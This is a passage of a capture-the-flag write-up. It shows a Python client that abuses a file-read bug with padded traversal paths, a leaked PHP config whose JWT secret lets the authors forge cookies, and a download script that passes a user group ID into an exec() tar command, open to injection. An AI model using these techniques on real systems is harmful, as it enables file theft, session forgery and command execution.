 ```python
    for file in self.list_files():
        if file.get('name') == name:
            id = file.get('id')
            response = self.s.get(_(f'/api/files.php?id={id}'))
            if response.ok:
                print("FOUND: ", name)
                return response.text
    return "Not found"

def list_files(self):
    response = self.s.get(_(path='/api/files.php'))
    return response.json()

while True:
    fname = input("filename:")
    print(c.write_file(fname))
```

Notice how at the end of the path we submit there is a user-writable directory and at some point there is the file that we actually want to read. Then we go in&out of the same directory to just reach the 512 character limit.

Including some of the files of the challenge as `/var/www/html/api/files.php` we saw that it includes a file `/var/www/html/api/init.php`, that includes `/var/www/html/api/config.php`:

```php
<?php
header('Access-Control-Allow-Headers: Content-Type');
header('Access-Control-Allow-Origin: *');
header('Wp-Ctf: WP{h1d3_http_h34d3rz}');

const JWT_SECRET = "WP{fr0m_bl4ckb0x_2_wh1t3b0x}";
define("DB_HOST", getenv("DB_HOST"));
define("DB_USER", getenv("DB_USER"));
define("DB_PASS", getenv("DB_PASS"));
define("DB_NAME", getenv("DB_NAME"));
define("UPLOAD_PATH", getenv("UPLOAD_PATH"));
define("TEAM_NAME", getenv("TEAM_NAME"));

header('Wp-Ctf-Team-Name: ' . TEAM_NAME);

set_include_path(get_include_path() . PATH_SEPARATOR . dirname(getcwd()).'lib/');
```

We have the secret used to sign jwt tokens, we can now sign our own cookies! But how is this useful?

### Jay-Woo-Tee - WP{3v3n_jwt_c0nt3nt_c4n_b3_d4nger0us}

Let’s include every other file we know about: `/var/www/html/api/filesdownloadall.php`.

```php
<?php

include_once "init.php";

use Wp\Sfb\Auth\PermissionHandler;

$user = PermissionHandler::getAuthenticatedUser();
if (!$user->canDownload()) {
    http_response_code(403);
    exit();
}
$tmp_f_name = tempnam("/tmp", $user->getGroupId());
$cmd_compress = "tar czf $tmp_f_name " . UPLOAD_PATH . "/" . $user->getGroupId();
exec($cmd_compress, $output, $retval);
```